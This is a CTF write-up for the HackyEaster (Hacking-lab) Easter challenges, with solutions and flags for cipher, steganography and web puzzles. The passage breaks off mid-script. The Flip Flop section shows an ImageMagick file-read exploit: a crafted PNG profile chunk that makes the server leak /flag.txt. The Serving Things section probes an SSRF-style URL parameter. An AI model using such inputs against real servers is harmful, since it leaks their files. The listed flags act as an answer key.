


# HackyEaster 2022

The annual Easter CTF from Hacking-lab


## Overview

Title                                            | Points     | Egg
-------------------------------------------------| ---------- | ------------------------------
Level 1: Welcome                                 |            |
[Sanity Check](#sanity-check)                    | Level 1    | `he2023{just_A_sanity_chEck}`
Level 2: Noob Zone                               |            |
[Word Cloud](#word-cloud)                        | Level 2    | `he2023{this_is_the_flag!}`
[Rotation](#roation)                             | Level 2    | `he2023{0n3_c4n_r34d_r0t0r_b4ckw4rds}`
[Birds on a Wire](#birds-on-a-wire)              | Level 2    | `he2023{birdwatchingisfun}`
[Bins](#bins)                                    | Level 2    | `he2023{s0rting_th3_w4ste}`
Level 3: It's so Easy                            |            |
[Chemical Code](#chemical-code)                  | Level 3    | `he2023{flagenergyatomcosmos}`
[Serving Things](#serving-things)                | Level 3    | `he2023{}`
[Cut Off](#cut-off)                              | Level 3    | `he2023{4cr0pa_wh4t?}`
[Global Egg Delivery](#global-egg-delivery)      | Level 3    | `he2023{u7ƒ_b0m5s_8rᗱ_n07_8ㅣway5_1gn0rᗱd}`
Level 4: Quattuor                                |            |
[Flip Flop](#flip-flop)                          | Level 4    | `he2023{1m4g3-tr4g1cK-aga111n}`
[Bouncy not in the Castle](#bouncy-not-in-the-castle)| Level 4| `he2023{n0_b0uNc}`
[A Mysterious Parchement](#a-mysterious-parchment)| Level 4   | `he2023{BUTISITACOOLOLDCODEITSUREIS}`
[Hamster](#Hamster)                              | Level 4    | `he2023{s1mpl3_h34d3r_t4mp3r1ng}`
[Lost in (French) Space](#lost-in-french-space)  | Level 4    | `he2023{davies}`
[Spy Tricks](#spy-tricks)                        | Level 4    | `he2023{I_like_303_b3tter_but_thats_n0t_pr1me}`
Level 5                                          |            |
[Thumper's PWN - Ring 3](#thumpers-pwn---ring3)  | Level 5    |
[Ghost in a Shell 4](#ghost-in-a-shell-4)        | Level 5    | `he{2023{al1asses-4-fUn-and-pr0fit}`
[Going Round](#going-round)                      | Level 5    | `he2023{fl1p_n_r0t4t3_in_p4irs}`
[Numbers Station](#numbers-station)              | Level 5    |
[Igor's Gory Passwordsafe](#igors-gory-passwordsafe)| Level 5  | `he2023{1d0R_c4n_d3str0y_ur_Crypt0_3ff0rt}`
[Singular](#singular)                            | Level 5    |


## Level 1: Welcome

### Sanity Check

**Challenge**

This is your first flag!

Right here --> `he2023{             }`

🚩 Flags are in format `he2023{...}`, unless noted otherwise. Always check additional information given (uppercase, lowercase, spaces, etc.).

**Solution**

inspecting the empty looking space in the challenge text, we see

```html
<span style="color: black; background-color: black; opacity: 0;">just_A_sanity_chEck</span>
```

**Egg**

```
he2023{just_A_sanity_chEck}
```

## Level 2: Noob Zone


### Word Cloud

**Challenge**

I like Word Clouds, what about you?

Download the image below (he2023-wordcloud.jpg), sharpen your eyes, and find the right flag.


**Solution**

The wordcloud contains a lot of false flags, but also the correct one, so just read all the words until you find it!


**Egg**

```
he2023{this_is_the_flag!}
```

### Rotation

**Challenge**

My new rotor messed up the flag!

```
96a_abL_?b04c?0Cbc50C_E_C03c4<HcC5DN
```

I tried to decode it, but it didn't work. The rotor must have been too fast!

**Solution**

We suspect a rotation cipher because of the cipher, and assuming the given string starts with `he2023`, this indeed checks out (`h` and `e` are 3 apart in the ASCII table, so are `9` and `6`). It would appear to be a rotation of 47, though sometimes it is +47, sometimes -47, so we write a short script to find the direction of rotation

```python
import string

ct="96a_abL_?b04c?0Cbc50C_E_C03c4<HcC5DN"
flag = ""

for i in range(0,len(ct)):
  pt = chr ( ord(ct[i])+47 )
  if pt not in string.printable:
     pt = chr ( ord(ct[i])-47 )

  flag += pt

print(flag)
```

which gives us the flag!

**Egg**

```
he2023{0n3_c4n_r34d_r0t0r_b4ckw4rds}
```

### Birds on a Wire

**Challenge**

Just some birds sitting on a wire.

Download the image and find the flag!


**Solution**

Some Googling reveals that this is the ["Birds on a Wire" cipher](https://www.dcode.fr/birds-on-a-wire-cipher)

It's a simple substitution cipher so we just map the birds to their corresponding letters to find the flag!

**Egg**

```
he2023{birdwatchingisfun}
```

### Bins

**Challenge**

The rabbits left a mess in their cage.

```
  //    //                    //
 ('>   ('>    LX2gkn81        ('>
 /rr   /rr       carrots      /rr
*\))_ *\))_                  *\))_
```

If only I knew which bin to put the rubbish in.


**Solution**

This one took way too long, we first thought of anything in `/bin` folder we might use on this, then finally realized we did not get a file to download, are there any "bins" on the website or online? OMG *paste*bin!

[pastebin.com/LX2gkn81](https://pastebin.com/LX2gkn81)

It exists, made just before the event, this is promising ..but it asks us for password, we try "carrots", and boom, there is our flag!

**Egg**

```
he2023{s0rting_th3_w4ste}
```


## Level 3: It's so Easy

### Chemical Code

**Challenge**

Our crazy chemistry professor wrote a secret code on the blackboard:

```
9 57 32 10 111 39 85 8 115 8 16 42 16
```

He also mumbled something like "essential and elementary knowledge".


**Solution**

This sounds like we have to convert atomic numbers to their corresponding sybols to get the flag

We find a python package to help us, [PyAstronomy](https://pyastronomy.readthedocs.io/en/latest/pyaslDoc/aslDoc/atomicNo.html, )and use it to decode the flag

```python3
from PyAstronomy import pyasl

an = pyasl.AtomicNo()
ct =[9,57,32,10,111,39,85,8,115,8,16,42,16]

flag = "".join(an.getElSymbol(ct[i]) for i in range(0,len(ct)))

print(flag)  # outputs FLaGeNeRgYAtOMcOSMoS

```

**Egg**

```
he2023{flagenergyatomcosmos}
```

### Serving Things

**Challenge**

Get the 🚩 at /flag.

[http://ch.hackyeaster.com:2316]([http://ch.hackyeaster.com:2316)

Note: The service is restarted every hour at x:00.

**Solution**

We get a simle website

```html
<!DOCTYPE html>

<html>
<head>
<title>Serving Things</title>
    <link rel="stylesheet"
	    href="/static/app.css">
	<script	src="/static/jquery-3.6.3.min.js" language="javascript"></script>
    <script	src="/static/app.js" language="javascript"></script>
</head>

<body>
	<div id="menu">
        Get: <a id="quotes" href="#">Quotes</a> | <a id="colors" href="#">Colors</a> | <a id="stars" href="#">Stars</a> |
		<a id="cheese" href="#">Cheese</a> | <a id="wine" href="#">Wine</a> | <a id="meals" href="#">Swiss Meals</a> |
		<a id="trek" href="#">The Trek</a> | <a id="flag" href="#">Flag</a>
	</div>
	<div id="text">
	</div>
	<div id="footer">
		<div id="created">
			Created by inik / 2023
		</div>
	</div>
</body>
</html>
```

with `app.js`:

```javascript
function get(url) {
    u = encodeURI(window.location.protocol + "//" + window.location.host + "/get?url=" + url);
    $.get(u, function (data) {
        var color = Math.floor(Math.random() * 16777215).toString(16);
        $("#text").fadeOut(400);
        setTimeout(function () {
            $("#text").html(data);
            $("#text").css("color", "#" + color);
            $("#text").fadeIn(400);
        }, 400);
    });
}

$(document).ready(function () {
    $("#quotes").click(function () {
        get("http://quotes:1337/quote");
    })

    $("#colors").click(function () {
        get("http://colors:1337/color");
    })

    $("#stars").click(function () {
        get("http://stars:1337/star");
    })

    $("#cheese").click(function () {
        get("http://cheese:1337/cheese");
    })

    $("#flag").click(function () {
        get("http://flags:1337/flag");
    })

    $("#wine").click(function () {
        get("http://wine:1337/wine");
    })

    $("#meals").click(function () {
        get("http://meals:1337/meal");
    })

    $("#trek").click(function () {
        get("http://trek:1337/trek");
    })

    $('#quotes').trigger('click');
});
```

So there are a couple of words you can click on, which get

```
http://ch.hackyeaster.com:2316/get?url=http://flags:1337/flag
```

returns

```
Thank you hacker! But our flag is in another castle! ~ Bugs Bunny
```

hmm..

**Egg**

```
he2023{}
```


### Cut Off

**Challenge**

I had a secret Easter egg on my screenshot, but I cropped it, hehe!

Kudos to former Hacky Easter winner Retr0id - he's one of the researches who found the vulnerability in question!


**Solution**

This sounds like the recen [aCROPalypse vulnerability](https://en.wikipedia.org/wiki/ACropalypse).

We use [acropalypse.app](https://acropalypse.app/) to recover the cropped part of the image.

We try some phone models until we have success with the "Google Pixel 6" setting


we than scan the QR code to get the flag

```bash
$ zbarimg screenshot-recovered.png
QR-Code:he2023{4cr0pa_wh4t?}
scanned 1 barcode symbols from 1 images in 0.24 seconds

```

**Egg**

```
he2023{4cr0pa_wh4t?}
```


### Global Egg Delivery

**Challenge**

Thumper has taken great strides with the digitization of the business of distributing eggs and assorted goodies. Globalizing such a service is not without its pains and requires the additional effort to account for local customs.

Now Thumper has his message all prepared, fed through a block-chain enabled, micro-service driven, AI enhanced, zero trust translation service all that comes back is this...

Can you help Thumper decode the message?

[message.txt](writeupfiles/message.txt)

**Solution**

By `cat`ing message.txt to the terminal we see:


Looking at the bytes,

```
$ cat message.txt | od -tx2 -a
0000000    feff    0068    fffe    6500    feff    0032    fffe    3000
        del   ~   h nul   ~ del nul   e del   ~   2 nul   ~ del nul   0
0000020    feff    0032    fffe    3300    feff    007b    fffe    7500
        del   ~   2 nul   ~ del nul   3 del   ~   { nul   ~ del nul   u
0000040    feff    0037    fffe    9201    feff    005f    fffe    6200
        del   ~   7 nul   ~ del soh dc2 del   ~   _ nul   ~ del nul   b
0000060    feff    0030    fffe    6d00    feff    0035    fffe    7300
        del   ~   0 nul   ~ del nul   m del   ~   5 nul   ~ del nul   s
0000100    feff    005f    fffe    3800    feff    0072    fffe    f115
        del   ~   _ nul   ~ del nul   8 del   ~   r nul   ~ del nak   q
0000120    feff    005f    fffe    6e00    feff    0030    fffe    3700
        del   ~   _ nul   ~ del nul   n del   ~   0 nul   ~ del nul   7
0000140    feff    005f    fffe    3800    feff    3163    fffe    7700
        del   ~   _ nul   ~ del nul   8 del   ~   c   1   ~ del nul   w
0000160    feff    0061    fffe    7900    feff    0035    fffe    5f00
        del   ~   a nul   ~ del nul   y del   ~   5 nul   ~ del nul   _
0000200    feff    0031    fffe    6700    feff    006e    fffe    3000
        del   ~   1 nul   ~ del nul   g del   ~   n nul   ~ del nul   0
0000220    feff    0072    fffe    f115    feff    0064    fffe    7d00
        del   ~   r nul   ~ del nak   q del   ~   d nul   ~ del nul   }
0000240
```

`0xfeff` and `0xffe` are [Unicode BOMs](https://en.wikipedia.org/wiki/Byte_order_mark). (Namely they should appear ONLY at the start)

> The BOM character is, simply, the Unicode codepoint U+FEFF ZERO WIDTH NO-BREAK SPACE, encoded in the current encoding. Traditionally, this codepoint is just a zero-width non-breaking space that inhibits line-breaking between word-glyphs. As such, if the BOM character appears in the middle of a data stream, Unicode says it should be interpreted as a normal codepoint, not as a BOM. Since Unicode 3.2, this usage has been deprecated in favor of U+2060 WORD JOINER.[1] - https://en.wikipedia.org/wiki/Byte_order_mark


So this is ,, incredibly invalid utf16. Fun! We can decode this manually by regexing the above into something like:

```
printf '\xfe\xff\x00\x68\x00' | iconv -f utf-16 -t utf-8 | uniname
printf '\xff\xfe\x65\x00\x00' | iconv -f utf-16 -t utf-8 | uniname
printf '\xfe\xff\x00\x32\x00' | iconv -f utf-16 -t utf-8 | uniname
printf '\xff\xfe\x30\x00\x00' | iconv -f utf-16 -t utf-8 | uniname
printf '\xfe\xff\x00\x32\x00' | iconv -f utf-16 -t utf-8 | uniname
printf '\xff\xfe\x33\x00\x00' | iconv -f utf-16 -t utf-8 | uniname
printf '\xfe\xff\x00\x7b\x00' | iconv -f utf-16 -t utf-8 | uniname
printf '\xff\xfe\x75\x00\x00' | iconv -f utf-16 -t utf-8 | uniname
printf '\xfe\xff\x00\x37\x00' | iconv -f utf-16 -t utf-8 | uniname
printf '\xff\xfe\x92\x01\x00' | iconv -f utf-16 -t utf-8 | uniname
```

And then seeing the result

```
16:55:38|(main) [user@p:~/projects/ctf-writeups-galaxians/HackyEaster_2023]$ bash message.sh 2>/dev/null | grep 0
        0          0  000068   68             h      LATIN SMALL LETTER H
        0          0  000065   65             e      LATIN SMALL LETTER E
        0          0  000032   32             2      DIGIT TWO
        0          0  000030   30             0      DIGIT ZERO
        0          0  000032   32             2      DIGIT TWO
        0          0  000033   33             3      DIGIT THREE
        0          0  00007B   7B             {      LEFT CURLY BRACKET
        0          0  000075   75             u      LATIN SMALL LETTER U
        0          0  000037   37             7      DIGIT SEVEN
        0          0  000192   C6 92          ƒ      LATIN SMALL LETTER F WITH HOOK
        0          0  00005F   5F             _      LOW LINE
        0          0  000062   62             b      LATIN SMALL LETTER B
        0          0  000030   30             0      DIGIT ZERO
        0          0  00006D   6D             m      LATIN SMALL LETTER M
        0          0  000035   35             5      DIGIT FIVE
        0          0  000073   73             s      LATIN SMALL LETTER S
        0          0  00005F   5F             _      LOW LINE
        0          0  000038   38             8      DIGIT EIGHT
        0          0  000072   72             r      LATIN SMALL LETTER R
        0          0  0015F1   E1 97 B1       ᗱ      CANADIAN SYLLABICS CARRIER GE
```

Pulling out that middle column manually (sorry) we get the flag:


**Egg**

```
he2023{u7ƒ_b0m5s_8rᗱ_n07_8ㅣway5_1gn0rᗱd}
```


## Level 4: Quattuor

### Flip Flop

**Challenge**

This awesome service can flipflop an image!

Flag is located at: `/flag.txt`

http://ch.hackyeaster.com:2310

**Solution**

We get a service that will take an image we supply it, and return it to us flipped upside down. The hint says it uses imagemagick to do this.

This looks like an imagemagick vulnerability, and we find a useful [article](https://www.uptycs.com/blog/denial-of-servicedos-and-arbitrary-file-read-vulnerability-in-imagemagick)
on the topic that we can follow.

So we use pngcrush to generate our image (the `test.png` input image can be any png image you have lying around)

```bash
$ pngcrush -text a Profile /flag.txt test.png
```

This creates an output image in [pngout.png](), and we can check the metadata is set correctly:

```bash
$ exiftool pngout.png
ExifTool Version Number         : 12.40
File Name                       : pngout.png
Directory                       : .
File Size                       : 2.3 MiB
File Modification Date/Time     : 2023:04:10 19:47:32+02:00

[..]

History When                    : 2023:01:30 11:31:54+01:00
Warning                         : [minor] Text/EXIF chunk(s) found after PNG IDAT (may be ignored by some readers)
Profile                         : /flag.txt
Image Size                      : 2732x1810
Megapixels                      : 4.9
```

We upload this to our server, and get an image back, [pngreturned.png](writeupfiles/pngreturned.png)

Frustratingly, `exiftool` doesn't show us the `Raw profile type` metadata tag with the flag in it, but using the `exiv2` tool does:

```bash
$ exiv2 -pS pngreturned.png                                                                                                                            [10-04-23 19:59:30]
STRUCTURE OF PNG FILE: pngreturned.png
 address | chunk |  length | data                           | checksum
       8 | IHDR  |      13 | ............                   | 0x6e9bc480
      33 | iCCP  |     371 | icc..(.u..+DQ..?fh.G....%...5. | 0x09d9776f
     416 | cHRM  |      32 | ..z&..............u0...`..:..  | 0x9cba513c
     460 | bKGD  |       6 | ......                         | 0xa0bda793
     478 | pHYs  |       9 | .........                      | 0x952b0e1b
     499 | tIME  |       7 | ...../'                        | 0xf75a837f
     518 | tEXt  |      94 | Raw profile type txt..txt.     | 0x633ed62f
     624 | IDAT  |   32768 | x....w\..'.m{\..... A&.$..n... | 0xadc05540
   33404 | IDAT  |   32768 | ?33Q..~..g.o..B......9g\....Z+ | 0x807f9e28
   66184 | IDAT  |   32768 | ...5595==.8....B.A..N..3 D.l6. | 0x82fb6bd5
   98964 | IDAT  |   32768 | .a..=55}... 0...j,.-b....R.@." | 0x586f7028
  131744 | IDAT  |   32768 | z*.9..Z.s....@))%...,.9.@J. .. | 0x7fd64b40
  164524 | IDAT  |   32768 | ..Z........R.....(......f.`... | 0x73e7d6f7

[..]
```

opening in a hexeditor helps



```
6865323032337b316d3467332d7472346731634b2d6167613131316e7d
```

Hey, this looks like plausible hex-encoded ASCII text, let's decode!

**Egg**

```
he2023{1m4g3-tr4g1cK-aga111n}
```

### Bouncy not in the Castle

**Challenge**

Very bouncy, indeed, but not in a castle.

Try http://ch.hackyeaster.com:2308


**Solution**

Hmm...

We get to a website where we can look around, we seem to be in a patch of grass in a town, and pastel coloured eggs drop down on us and start bouncing.

Source:

```html
<!DOCTYPE html>
<html lang="en">
<head>
<title>three.js webgl - materials - cube refraction [balls]</title>
<meta charset="utf-8">
<meta name="viewport"
	content="width=device-width, user-scalable=no, minimum-scale=1.0, maximum-scale=1.0">
<link type="text/css" rel="stylesheet" href="main.css">
<script src="background.png.js"></script>
</head>
<body>


	<script type="module">

			import * as THREE from './three.module.js';
            import Stats from './stats.module.js';


			const VSTEP = 20;		// Speed increase per step
			const VDAMP = 0.98;		// Damping because of friction
			const EGGSIZE = 250;	// egg size in pixel

			let container, stats;

			let camera, scene, renderer;

			const eggs = [];

			let mouseX = 0, mouseY = 0;

			let windowHalfX = window.innerWidth / 2;
			let windowHalfY = window.innerHeight / 2;

			document.addEventListener( 'mousemove', onDocumentMouseMove, false );

			// Clock for smooth movement on slower PCs
			const clock = new THREE.Clock();

			init();
			animate();

			function init() {

				// canvas
				container = document.createElement( 'div' );
				document.body.appendChild( container );

				// stats
				stats = new Stats();
				container.appendChild( stats.dom );

				// camera
				camera = new THREE.PerspectiveCamera( 60, window.innerWidth / window.innerHeight, 1, 100000 );
				camera.position.z = 3200;

				// scene
				scene = new THREE.Scene();
				scene.background = new THREE.CubeTextureLoader()
					.setPath( 'textures/cube/' )
					.load( [ 'posx.jpg', 'negx.jpg', 'posy.jpg', 'negy.jpg', 'posz.jpg', 'negz.jpg' ] );

				// geometry (egg)
				// points - (x, y) pairs are rotated around the y-axis
				var points = [];
				var SIZE = 150;
				for ( var deg = 0; deg <= 180; deg += 6 ) {
					var rad = Math.PI * deg / 180;
    				var point = new THREE.Vector2( ( 0.72 + .08 * Math.cos( rad ) ) * Math.sin( rad ) * EGGSIZE, - Math.cos( rad ) * EGGSIZE ); // the "egg equation"
    				//console.log( point ); // x-coord should be greater than zero to avoid degenerate triangles; it is not in this formula.
    				points.push( point );
				}
				const eggGeometry =  new THREE.LatheBufferGeometry( points, 32 );

				// generate all eggs
				for ( let x = 0; x < 21; x ++ ) {
						for ( let z = 0; z < 21; z ++ ) {
						const mesh = new THREE.Mesh( eggGeometry, getRandomMaterial(x, z));

						mesh.position.x = x * 10000 / 21 - 5000;
						mesh.position.y = 5000 + Math.random() * 5000;
						mesh.position.z = z *  10000 / 21 - 5000;
						mesh.userData.vy = 0;

						scene.add(mesh);
						eggs.push( mesh );
					}
				}


				renderer = new THREE.WebGLRenderer();
				renderer.setPixelRatio( window.devicePixelRatio );
				renderer.setSize( window.innerWidth, window.innerHeight );
				container.appendChild( renderer.domElement );

				//

				window.addEventListener( 'resize', onWindowResize, false );

			}

			function getRandomColor(x, z) {
				let pos = (x + z * 21) * 6;
				let val = parseInt(hex.substring(pos, pos + 6), 16);
				console.log("x:" + x + ", z: " + z + ", val: " + val )
				return val;
			}

			function getRandomMaterial(x, z) {
				let material = new THREE.MeshBasicMaterial( {color:  getRandomColor(x, z), envMap: scene.background, refractionRatio: 0.95 } );
	 			material.envMap.mapping = THREE.CubeRefractionMapping;
				return material;
			}

			function onWindowResize() {
				windowHalfX = window.innerWidth / 2;
				windowHalfY = window.innerHeight / 2;
				camera.aspect = window.innerWidth / window.innerHeight;
				camera.updateProjectionMatrix();
				renderer.setSize( window.innerWidth, window.innerHeight );
			}

			function onDocumentMouseMove( event ) {
				mouseX = ( event.clientX - windowHalfX ) * 10;
				mouseY = ( event.clientY - windowHalfY ) * 10;
			}

			//
			function animate() {
				requestAnimationFrame( animate );
				render();
				stats.update();
			}

			function render() {
				const delta = clock.getDelta();
				for ( let i = 0, il = eggs.length; i < il; i ++ ) {
					const egg = eggs[i];
					egg.position.y += egg.userData.vy;
					egg.userData.vy -= delta * VSTEP;

					if (egg.position.y < 0) {
						egg.position.y = - egg.position.y;
						egg.userData.vy = - egg.userData.vy * VDAMP;
					}
				}

				camera.position.x += ( mouseX - camera.position.x ) * .05;
				camera.position.y += ( - mouseY - camera.position.y ) * .05;

				camera.lookAt( scene.position );
				renderer.render( scene, camera );

			}

		</script>

</body>
</html>

```

and `background.png.js`:

```javascript
hex="9694fb96c7c186bad7f9b0cbb1da818b84ad84a49df3c6aaeeb5aedccca394e5f4d8a786fd9298a1edfcafcbd9f99aa5a1b3ebbf8ae5ab82a3d49293d08e83f1a1b9b4f9eab3daf6e4a8faf8a7f6cbbff6947fb584c4a69c84efe286f8dcfa9fc2f0a5afca97ef9b9ca7ccedfdb8ca9c95bcd3859ea6f2a2b7a980cd89a1bdeaefa6bda69d91fbf4dbbb85f6b7b6b4ded0989fcbd6dac997fca0d5bae6e0a0a3e384a792f4d3bcb884dbe59ec6acaaa599cf8ebbc28483a79ea681efaf93dcafe4f5f2ea8c97b4d9afdcade3bf8e8ee89e89e789c09d97fb8db6a6d7bd9ffbdd87c599aeb2fba6f5e9a1ccb5c880e5d7deb5b3aacee98bb1daa1e3d19fbbfbf9f8a68384f9c3f6cbfdc1a59fb6a2d4f3d99683f689b59ea0cafe83b7ef8283e2c5e4cdfbd8c096dbbff8b4acceb67f82f3e5fdcc8fc9e1cefcd3a7a883adf0b0929da9b6eef9ee81c580e1e49ab8a9e1edd88ae0dac3a2edb4f3fe86aaf6c5d7bbddc8c0a2c7e9d19dd0b285b1b6aca9809fbdfcbdb7a0edd399ccbdd3a3adafbddfe1fdb2adcab891c9faafc2bcbb9c86eea0e389f8e48e89eaa3a6afeec49295d08ddabb87efc188c17f8fd99ce89bb9f1b793f4ffa2e8f9a0bb9cff8a96f79dceab9fb4a989c093ed9ce38282ffa3c8bb9fc4cacbe5d0dfee81d3bdbba4c9b8d5decb9ff883bab09fe7bcfdfd84b1d6da80de9eafb4b0b4d9d5c9f8a7c0d5977fbdb3c1849fdbf7e29bbeeba1b5ed82bb97b980d5be89e2e88bdd98eb95afde97ebf2a6a69bd1f0b882d380b3a3a6a080978da6f58ad5e7bda5def6f2eae9d7f099b393a8ed96a4d0e592dba3c581e18f82bdfb9a9c99dc9cbfacc1c48daec6df8983b3abfebeb6c5e98587868dbb7f8af89e92cda9b285ead8b0df80afa3f4ad92a6adc4f7e2a49cd782e4d98aaaec968de8feebd5bdaf97f0aea3d7dcff8cd1b5d49af4d9ec9c9a93f3a098adde88839ff0fed3f38c8fef8bb2a6aba8d3e1a0c48aa2a382fc89acc9ee9af2cd8ed5fb90b4d4f5c7bbd0d7bcdf898df1cdc9a496c7c587f1dbc9bebaaf989d8cf980d099d2d7dcffe6f9dba1f4e5e1949bf0c9dba7cbe394ba8384aaa6db998bd2b0d5e6eeb89580aad7d097e7d6c2f87fd9a3a1a593dfe7fef2a98a8bf59aa2e0e1f4c7bbdde4bbae9683e6b2bcc9f6d4a7beeed696d69d94d6fab2e0b0d9cda08fddb68c87fde1eec7d89fe8cfaabbb9a8f2db8dd2ece4a9d0f5af998290b4fba39bf19b85dfb9d7a3bd89b0d3b58ef2a7f3b699b4e7e5b9f7cec283e9bdec8af4f396f7fefe81d5dfcaa9f48cf181e9a2a5819df2afcfb8ab8ecf89c2e788cdaecad4b5ce8daef7d9b091ecd6bf9ab693fcfc90ff83f9c8d28f9bcabcc69bc0a0d0b8fe8482d4bca1fac2af8af8e48da9b4e3a6fa97e6cce4e781c2f4e1abf5e49eabedb18c87c98b9181a982d3c1c482fcca82efe7c0b2c19c8fdce89fe0ad9196c3eebbad8185fab7b981e3ede880ecfec88aa589cec9c7bc8282fbecf8b1889787fef0adfb9fcfdfbd989b8fb2c3e891bea9cdfdcce5b2eddbc99cd2e1eefaf6cab2e1c89186a697abcad98ada94a1b5c0a2e4f291c9eabdaec2cbcce0ade1e7a492c58ae3b0c69baefce988e7ead39abff1cf9ada8dd59d8a9bf1e4b4a0c4dfc9d9f1f0e0be938a88a6cef7e8fcaeb5a9caf4bec5dde184e288dec9bae7998ceae7dfdced95e8d9a9aa8db996e5ce7fa1a6908d9edbc0d2b296fdefa890dbc8dcb0f4be839992dcdafdb3a596cb97e2a5ebf28cc7a4d0a0f8d49cb3a188fabf8ad789efb5f3ac8c839ddea189ea97d9c2a0c991d589bebb9dce9db6e6bbe6e9f2a8c2819fa5e48fe8b587b7e38c9dc6ced4d7d9fdfb81a9c0"
```


not sure what to do with that..

BouncyCastle is an encryption library ?

But this is a forensics challenge

no clue..

ok, the `hex` variable in background.png.js is used to generate "random" colours. This it definitely weird, let's look at that more closely. We see it uses six charachters of this string as a colour value for the eggs, and it accesses them as if it's a square of 21 by 21 pixels.. Let's recreate all these colours as an image//

```python
from PIL import Image
import textwrap

hexstring="9694fb96c7c186bad7f9b0cbb1da818b84ad84a49df3c6aaeeb5aedccca394e5f4d8a786fd9298a1edfcafcbd9f99aa5a1b3ebbf8ae5ab82a3d49293d08e83f1a1b9b4f9eab3daf6e4a8faf8a7f6cbbff6947fb584c4a69c84efe286f8dcfa9fc2f0a5afca97ef9b9ca7ccedfdb8ca9c95bcd3859ea6f2a2b7a980cd89a1bdeaefa6bda69d91fbf4dbbb85f6b7b6b4ded0989fcbd6dac997fca0d5bae6e0a0a3e384a792f4d3bcb884dbe59ec6acaaa599cf8ebbc28483a79ea681efaf93dcafe4f5f2ea8c97b4d9afdcade3bf8e8ee89e89e789c09d97fb8db6a6d7bd9ffbdd87c599aeb2fba6f5e9a1ccb5c880e5d7deb5b3aacee98bb1daa1e3d19fbbfbf9f8a68384f9c3f6cbfdc1a59fb6a2d4f3d99683f689b59ea0cafe83b7ef8283e2c5e4cdfbd8c096dbbff8b4acceb67f82f3e5fdcc8fc9e1cefcd3a7a883adf0b0929da9b6eef9ee81c580e1e49ab8a9e1edd88ae0dac3a2edb4f3fe86aaf6c5d7bbddc8c0a2c7e9d19dd0b285b1b6aca9809fbdfcbdb7a0edd399ccbdd3a3adafbddfe1fdb2adcab891c9faafc2bcbb9c86eea0e389f8e48e89eaa3a6afeec49295d08ddabb87efc188c17f8fd99ce89bb9f1b793f4ffa2e8f9a0bb9cff8a96f79dceab9fb4a989c093ed9ce38282ffa3c8bb9fc4cacbe5d0dfee81d3bdbba4c9b8d5decb9ff883bab09fe7bcfdfd84b1d6da80de9eafb4b0b4d9d5c9f8a7c0d5977fbdb3c1849fdbf7e29bbeeba1b5ed82bb97b980d5be89e2e88bdd98eb95afde97ebf2a6a69bd1f0b882d380b3a3a6a080978da6f58ad5e7bda5def6f2eae9d7f099b393a8ed96a4d0e592dba3c581e18f82bdfb9a9c99dc9cbfacc1c48daec6df8983b3abfebeb6c5e98587868dbb7f8af89e92cda9b285ead8b0df80afa3f4ad92a6adc4f7e2a49cd782e4d98aaaec968de8feebd5bdaf97f0aea3d7dcff8cd1b5d49af4d9ec9c9a93f3a098adde88839ff0fed3f38c8fef8bb2a6aba8d3e1a0c48aa2a382fc89acc9ee9af2cd8ed5fb90b4d4f5c7bbd0d7bcdf898df1cdc9a496c7c587f1dbc9bebaaf989d8cf980d099d2d7dcffe6f9dba1f4e5e1949bf0c9dba7cbe394ba8384aaa6db998bd2b0d5e6eeb89580aad7d097e7d6c2f87fd9a3a1a593dfe7fef2a98a8bf59aa2e0e1f4c7bbdde4bbae9683e6b2bcc9f6d4a7beeed696d69d94d6fab2e0b0d9cda08fddb68c87fde1eec7d89fe8cfaabbb9a8f2db8dd2ece4a9d0f5af998290b4fba39bf19b85dfb9d7a3bd89b0d3b58ef2a7f3b699b4e7e5b9f7cec283e9bdec8af4f396f7fefe81d5dfcaa9f48cf181e9a2a5819df2afcfb8ab8ecf89c2e788cdaecad4b5ce8daef7d9b091ecd6bf9ab693fcfc90ff83f9c8d28f9bcabcc69bc0a0d0b8fe8482d4bca1fac2af8af8e48da9b4e3a6fa97e6cce4e781c2f4e1abf5e49eabedb18c87c98b9181a982d3c1c482fcca82efe7c0b2c19c8fdce89fe0ad9196c3eebbad8185fab7b981e3ede880ecfec88aa589cec9c7bc8282fbecf8b1889787fef0adfb9fcfdfbd989b8fb2c3e891bea9cdfdcce5b2eddbc99cd2e1eefaf6cab2e1c89186a697abcad98ada94a1b5c0a2e4f291c9eabdaec2cbcce0ade1e7a492c58ae3b0c69baefce988e7ead39abff1cf9ada8dd59d8a9bf1e4b4a0c4dfc9d9f1f0e0be938a88a6cef7e8fcaeb5a9caf4bec5dde184e288dec9bae7998ceae7dfdced95e8d9a9aa8db996e5ce7fa1a6908d9edbc0d2b296fdefa890dbc8dcb0f4be839992dcdafdb3a596cb97e2a5ebf28cc7a